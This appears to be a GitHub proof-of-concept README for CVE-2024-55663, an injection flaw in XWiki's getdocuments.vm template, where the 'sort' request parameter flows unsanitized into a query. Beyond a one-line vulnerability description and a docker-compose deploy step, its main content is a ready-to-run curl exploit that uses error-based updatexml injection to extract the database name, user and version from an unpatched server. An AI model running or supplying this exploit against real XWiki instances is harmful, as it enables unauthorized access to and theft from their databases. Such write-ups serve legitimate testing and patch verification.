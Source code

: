 ##  CVE-2024-55663
## VULNERABILITY DETAILS
In getdocument.vm ; the ordering of the returned documents is defined from an unsanitized request parameter (request.sort) and can allow any user to inject HQL ; see https://github.com/xwiki/xwiki-platform/blob/029c324dc3eeac1401210b420460bdfb970346e7/xwiki-platform-core/xwiki-platform-web/src/main/webapp/templates/getdocuments.vm#L75

## VULNERABILITY
xwiki:11.10.8-mysql-tomcat (tested)

## Deploy:
```
docker-compose up
```

## Exploit:
``` 
curl --silent "http://<Host>/xwiki/bin/get/Documentation/WebHome?xpage=xpart&vm=getdocuments.vm&sort=1,updatexml(rand(),concat(CHAR(126),database(),char(124),user(),char(124),version(),CHAR(126)),null)" | grep -Eo "~(.*)~" 
```



https://github.com/user-attachments/assets/452120b2-4e93-484d-90e6-97d6606eba28




## References:
- https://jira.xwiki.org/browse/XWIKI-17568
- https://nvd.nist.gov/vuln/detail/CVE-2024-55663
